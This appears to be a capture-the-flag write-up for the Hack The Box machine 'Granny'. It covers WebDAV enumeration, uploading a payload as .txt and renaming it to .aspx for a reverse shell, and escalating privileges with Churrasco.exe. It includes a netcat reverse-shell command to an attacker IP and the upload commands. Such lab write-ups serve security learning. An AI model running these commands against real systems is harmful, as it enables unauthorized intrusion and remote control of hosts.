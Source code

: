 # Granny

### Machine Info
![](screenshots/machine_info.png)

#### Nmap
![](screenshots/nmap.png)

##### HTTP (Port 80)

###### Gobuster:
Checked `gobuster` but nothing.

![](screenshots/gobuster.png)


From the `nmap` scan, I can see that webdav is enabled on the web server and command `put` and `move` are enabled for public. The `gobuster` shows that there is a directory `aspnet_client`. If I can upload malicious code with `aspx` format, I can get a reverse shell.

![](screenshots/davtest.png)


As we can see from the result of `davtest`, we cannot upload `asp` or `aspx` format. But we can upload `txt`, `html`, or `php` and after that we can change our format to `aspx`.

#### Exploit

First Generate the shellcode with `txt` format:
![](screenshots/shellcode.png)

Then upload to server by using `cadaver`:
```
❯ cadaver 10.10.10.15  
dav:/> put shell.txt
Uploading shell.txt to `/shell.txt':
Progress: [=============================>] 100.0% of 2736 bytes succeeded.
dav:/> mv shell.txt shell.aspx
Moving `/shell.txt' to `/shell.aspx':  succeeded.
```

Now access to `shell.aspx` with web browser and from `nc` listener:
![](screenshots/lowshell.png)



#### Privilege Escalation

Copy `systeminfo` from windows machine to attacking machine and run `windows-exploit-suggester.py `.

```
❯ python windows-exploit-suggester.py -d 2020-02-20-mssb.xls -i systeminfo.txt    
[*] initiating winsploit version 3.3...                                           
[*] database file detected as xls or xlsx based on extension                                                      
[*] attempting to read from the systeminfo input file                                                                                                                                                                                                   
[+] systeminfo input file read successfully (ascii)                                                                         
[*] querying database file for potential vulnerabilities                                                  
[*] comparing the 1 hotfix(es) against the 356 potential bulletins(s) with a database of 137 known exploits
[*] there are now 356 remaining vulns                                                     
[+] [E] exploitdb PoC, [M] Metasploit module, [*] missing bulletin     
[+] windows version identified as 'Windows 2003 SP2 32-bit'

-------------------- SIP ------------------------

[E] MS15-010: Vulnerabilities in Windows Kernel-Mode Driver Could Allow Remote Code Execution (3036220) - Critical                                                                                                                                       
[*]   https://www.exploit-db.com/exploits/39035/ -- Microsoft Windows 8.1 - win32k Local Privilege Escalation (MS15-010), PoC                                                                                                                            
[*]   https://www.exploit-db.com/exploits/37098/ -- Microsoft Windows - Local Privilege Escalation (MS15-010), PoC                                                                                                                                       
[*]   https://www.exploit-db.com/exploits/39035/ -- Microsoft Windows win32k Local Privilege Escalation (MS15-010), PoC                                                                                                                                  
[*]                                                                                                                                                                                                                                                      
[E] MS14-070: Vulnerability in TCP/IP Could Allow Elevation of Privilege (2989935) - Important                                                                                                                                                           
[*]   http://www.exploit-db.com/exploits/35936/ -- Microsoft Windows Server 2003 SP2 - Privilege Escalation, PoC          

____________________ SIP ________________________    

```

Based on the result, I tried manual exploit such as `MS15-01`, `MS14-070`, `MS14-058` and some more but failed. After that I tried `Churrasco.exe` which is `Microsoft Windows Server 2003 - Token Kidnapping Local Privilege Escalation ` and it worked.


Exploit-db source code: []()https://www.exploit-db.com/exploits/6705

In Kali Linux, there is a compiled version. And I also copied `nc.exe` for reverse shell.
```
~/htb/granny root@kali                                                                                                     │churrasco.exe -d "nc.exe 10.10.14.37 5555 -e cmd.exe"
❯ cp /usr/share/sqlninja/apps/churrasco.exe ./   
❯ cp /usr/share/windows-binaries/nc.exe ./
```

Like we uploaded our `shell.aspx` by using `cadaver`, we use same method to transfer 2 files.

```
❯ cadaver 10.10.10.15
dav:/> put nc.exe.txt
Uploading nc.exe.txt to `/nc.exe.txt':
Progress: [=============================>] 100.0% of 59392 bytes succeeded.

dav:/> mv nc.exe.txt nc.exe
Moving `/nc.exe.txt' to `/nc.exe':  succeeded.

dav:/> put churrasco.exe.txt
Uploading churrasco.exe.txt to `/churrasco.exe.txt':
Progress: [=============================>] 100.0% of 31232 bytes succeeded.

dav:/> mv churrasco.exe.txt churrasco.exe
Moving `/churrasco.exe.txt' to `/churrasco.exe':  succeeded.
```

##### Exploit
Execute `Churrasco.exe` with command:
![](screenshots/exploit.png)

`nc` listener on attacking side:
![](screenshots/root_shell.png)

And you can get `root.txt` :)
